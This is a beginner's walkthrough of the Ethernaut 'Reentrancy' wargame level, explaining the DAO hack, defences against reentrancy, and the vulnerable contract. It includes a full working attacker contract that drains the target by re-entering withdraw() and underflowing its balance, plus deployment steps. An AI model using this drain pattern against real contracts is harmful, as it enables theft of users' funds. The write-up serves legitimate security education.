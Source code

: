 ```yaml
---
title: "Ethernaut - Walkthrough for Noobs - 10 - Reentrancy"
datePublished: Thu Mar 23 2023 18:57:52 GMT+0000 (Coordinated Universal Time)
cuid: clflh7gsi000009jwe0fb055t
slug: ethernaut-walkthrough-for-noobs-10-reentrancy
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1679499816268/0b1f0a67-318d-42a6-9ff9-a58200778b8c.jpeg
tags: ethereum, smart-contracts, 2articles1week, ethernaut, reentrancy

---
```


This challenge is a good one. We learn about the famous re-entrancy attack. This attack was responsible for the infamous '[The DAO Hack](https://blog.chain.link/reentrancy-attacks-and-the-dao-hack/)'. It is the reason why there was a hard fork on the Ethereum chain and we now have two chains, the legacy chain - Ethereum Classic, and the Ethereum chain that we know today.

You can and should read more about the 'The DAO Hack'. These types of attacks today are relatively less heard of but nonetheless, played a pivotal role in building the smart contract security and auditing space.

> Objective: The goal of this level is for you to steal all the funds from the contract.

### Background

A Re-entrancy is a type of vulnerability in a contract, in which the vulnerable contract gives up the control flow and makes an external call to a contract. This receiver contract can sometimes be malicious and can make recursive calls back to the vulnerable smart contract to drain its funds or claim ownership.

To further dumb it down, this is how the attack would take place.

1. Let's say there are two contracts: A --&gt; Vulnerable and B --&gt; Attacker.
    
2. The bad guy, let's say Aditya(Me) would invoke contract A to send funds to the malicious contract B.
    
3. Contract A would do its diligence, it would check Aditya's balance --&gt; send funds to B ---&gt; Updates the Balance.
    
4. However, the malicious contract wouldn't have a `receive` function but rather a fallback function, which would call back recursively into contract A before it updates the funds. Hence the Exploit.
    

Concentrate on the word re-entrancy, i.e. to re-enter the contract. I don't know if this fact is true tho, making shit up at this point.

To some up, B calls recursively into A before A finishes its execution.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1679506065722/ff15249e-ad81-4ff4-baff-562631e98374.png align="center")

So, how would you identify if a re-entrancy attack is possible?

1. There must be an **external call** happening in the contract to another contract owned by the bad actor.
    
2. There is some sensitive **state change**, for example: in the above example: the balanceUpdate() is that state change.
    

> *Note: The common ways to prevent re-entrancy attacks are:*
> 
> 1. *Checks, Effects, and Interactions (CEI) method.*
>     
> 2. *Reentrancy Guard or Mutex*
>     
> 3. *Gas Limit*
>     
> 4. *Pull Payments*
>     
> 
> [Read more](https://www.alchemy.com/overviews/reentrancy-attack-solidity)

### Code of Importance

Per usual, the explanations are in the comments.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import 'openzeppelin-contracts-06/math/SafeMath.sol'; //imports SafeMath. 

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances; //maps the user balance to its address.

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value); //allows msg.sender to send funds to this address, we would need to send some funds here for to pass an if statement in the withdraw() function. 
//Also since it uses SafeMath, it won't overflow. Remember? Challenge 3?
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who]; //checks the balance, nothing special. 
  }
//here comes the point of attack. 
  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) { //checks for balance of msg.sender
      (bool result,) = msg.sender.call{value:_amount}(""); //sends the requested _amount via the call function.
//this is bad, since the msg.sender can be the malicious contract. That is a no no. 
      if(result) {
        _amount; //checks for whether the amount was sent successfully. 
      }
      balances[msg.sender] -= _amount; //this is the sensitive state change we were talking about. 
    }
  }

  receive() external payable {} //receives ether
}
```

Here is the plan of attack.

1. Deploy a malicious contract with some balance.
    
2. Use that contract to call the level instance.
    
3. Donate some ether to the level instance, to pass the if statement.
    
4. The malicious contract will have a fallback function that will help us reenter the `withdraw` function before the balance gets updated. Hence calling it recursively again and again.
    

### Solution

I have laid out all the steps for you to solve it the standard way, I am solving it in a non-standard and **lengthier** way just to show how we can even make the Reentrance contract underflow, for you, however, use the standard procedure to solve the problem. Figure it out, that's a take-home challenge.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

interface IReentrance { //an interface to interact with the Reentrance contract, basically to reduce code duplication and also I am too lazy, to copy paste, and change the compiler version on Remix.   
    function donate(address _to) external payable; 
    function withdraw(uint _amount) external;
}

contract Malicious {
    //state variables
    IReentrance reentrance;
    bool private success;
    address public targetAddress;

    constructor(address _targetAddress) {
        reentrance = IReentrance(_targetAddress); 
        success = false; //will use as a check to stop the exploit from an infinte recursion. 
        targetAddress = _targetAddress;
    }

    function attack() external payable {
        reentrance.donate{value: msg.value}(address(this)); //we will donate to the contract, to pass the checks in the withdraw function. `this` referes to the address of Malicious.

        reentrance.withdraw(msg.value); //We will withdraw our amount (1 wei), this will trigger the receive function. Balance is updated to zero. (Step 1)
        reentrance.withdraw(address(targetAddress).balance); //We have an infinte amount of balance theoritcally, and can withdraw all the funds in the Reentrance contract. (Step 3)

    }

    receive() external payable {
        
        if (!success) { //since success is false, this will continue
            success = true; //setting it to be true. Hence the re-entrance will stop after one time. 
            reentrance.withdraw(msg.value); //Withdrawing (1 wei again) Balance underflows. (Step 2)
        }
    }
}
```

1. Put the above code in Remix, Compile it, and Deploy it on the Level instance.
    
2. Put `1 wei` as: value in Remix, and fire the attack function.
    
3. ```javascript
    await getBalance(contract.address) //should be zero, if you have passed the challenge.
    ```
    
4. Submit Instance
    

Re-entrancy **🚪**